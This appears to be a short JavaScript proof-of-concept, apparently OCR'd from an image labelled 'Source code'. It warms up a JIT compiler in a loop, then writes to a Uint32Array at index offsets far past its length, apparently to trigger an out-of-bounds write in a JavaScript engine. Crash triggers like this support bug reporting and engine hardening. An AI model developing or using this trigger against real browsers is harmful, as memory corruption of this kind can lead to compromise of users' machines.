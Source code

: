 
function opt(arr) {
    if (arr.length <= 15)
        return;

    let j = 0;
    for (let i = 0; i < 2; i++) {
        arr[j] = 0x1234;  
        j += 0x100000;
        j + 0x7ffffff0;
    }
}

function main() {
    for (let i = 0; i < 0x10000; i++) {
        opt(new Uint32Array(100));
    }
}

main();

